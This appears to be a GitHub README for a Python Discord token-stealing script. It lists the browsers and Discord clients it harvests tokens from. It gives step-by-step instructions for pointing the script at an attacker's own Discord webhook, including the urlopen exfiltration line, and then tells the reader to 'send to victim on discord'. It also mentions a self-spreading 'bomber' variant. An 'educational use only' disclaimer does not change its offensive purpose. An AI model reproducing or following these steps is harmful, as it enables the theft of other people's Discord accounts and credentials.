 To run this you need to have python installed on your computer.

To download it go to: https://www.python.org/downloads/ and get the latest stable version.

feel free to run this on your computer to test it out as it will cause no damage and just send your info to your server as aposed to the bomber witch will nuke your discord and send itself to everyone on your friends list

This python script when you run it will token log the person 

information it reurns: ![Screenshot 2021-05-09 145846](https://user-images.githubusercontent.com/83868916/117561181-d00e7e00-b0d7-11eb-9921-46f8689a5e19.png)

## It token logs from

Chrome

Discord

Discord PTB

Discord Canary

Opera

Brave

Yandex

## instuctions

If you want to change were it sends the token to.

1. create a discord server 

 ![Screenshot 2021-05-09 150939](https://user-images.githubusercontent.com/83868916/117561272-a3a73180-b0d8-11eb-8ff1-bd4e4e4584e8.png)

2. add a webhook ![Screenshot 2021-05-09 150105](https://user-images.githubusercontent.com/83868916/117561184-d270d800-b0d7-11eb-9432-49ec9ff63840.png)

3. copy webhook url ![Screenshot 2021-05-09 150143](https://user-images.githubusercontent.com/83868916/117561189-d69cf580-b0d7-11eb-8473-9b7f8d902403.png)

4. open the bommer.py in IDLE or another python editor ![Screenshot 2021-05-09 150211](https://user-images.githubusercontent.com/83868916/117561191-d7ce2280-b0d7-11eb-9978-ee33c259c576.png)

5. scroll down to the last line before the blank (big gap in code) near the bottom 
 were it says 
try:
        urlopen(Request("https://discord.com/api/webhooks/842670576677814292/x6AJt5CcuKtDX4JzZpPxztOsOXYHs0NFWv2i6ASDiw37AusGXgo9fT2GaJBCIAGQn8fE", data=dumps(webhook).encode(), headers=getheaders())) ![Screenshot 2021-05-09 150239](https://user-images.githubusercontent.com/83868916/117561194-d997e600-b0d7-11eb-8225-0bb6d77fa324.png)
6. change the "https://discord.com/api/webhooks/842670576677814292/x6AJt5CcuKtDX4JzZpPxztOsOXYHs0NFWv2i6ASDiw37AusGXgo9fT2GaJBCIAGQn8fE" to your webhook url ![Screenshot 2021-05-09 150300](https://user-images.githubusercontent.com/83868916/117561195-dac91300-b0d7-11eb-9494-a55d8f6e5276.png)

7. save the file ![Screenshot 2021-05-09 151713](https://user-images.githubusercontent.com/83868916/117561385-b2421880-b0d9-11eb-98c4-00c3641d6ba6.png)

8. send to victim on discord ![Screenshot 2021-05-09 145846](https://user-images.githubusercontent.com/83868916/117561181-d00e7e00-b0d7-11eb-9921-46f8689a5e19.png)

# **!!Disclaimer this is for educational use only and i am not responsible for your actions or uses of this code!!**

**feel free to ask any questions or report any issues in the issues tab**
